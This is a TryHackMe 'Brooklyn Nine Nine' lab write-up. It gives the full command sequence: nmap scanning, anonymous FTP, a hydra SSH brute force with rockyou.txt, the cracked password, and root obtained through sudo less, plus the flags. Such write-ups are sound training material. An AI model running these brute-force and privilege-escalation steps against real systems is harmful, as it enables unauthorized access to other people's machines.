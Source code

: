 ## A. Enumeration

### A.1 Nmap

```
┌─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $nmap -sV -sT -A 10.10.162.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-23 05:48 IST
Nmap scan report for 10.10.162.152
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
```

### FTP


1. Anonymous login allowed
2. file found
```
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt

```

```
┌─[glack@parrot]─[~/Desktop/THM/b99]
└──╼ $cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

### HTTP

```
┌─[glack@parrot]─[~/Desktop/THM/thecodcaper]
└──╼ $feroxbuster -u http://10.10.162.152/ -w /usr/share/wordlists/small.txt -x php,html
```

found nothing in http

## B. Shell

1. got a hint that Jake's password is weak, that means it must be in the rockyou.txt
2. used hydra to bruteforce ssh login with Jake's username

```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/b99]
└──╼ $hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.162.152 ssh
```

found the password
```
22][ssh] host: 10.10.162.152   login: jake   password: 987654321
```


3. found the user flag in holt's home directory

```
jake@brookly_nine_nine:/home/holt$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

## C. Priv ESC

1. Jake is able to run `less`  command with sudo privileges
```
ser jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

2. used that to get the root flag

```
jake@brookly_nine_nine:/home/holt$ sudo less /root/root.txt
```

```
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

```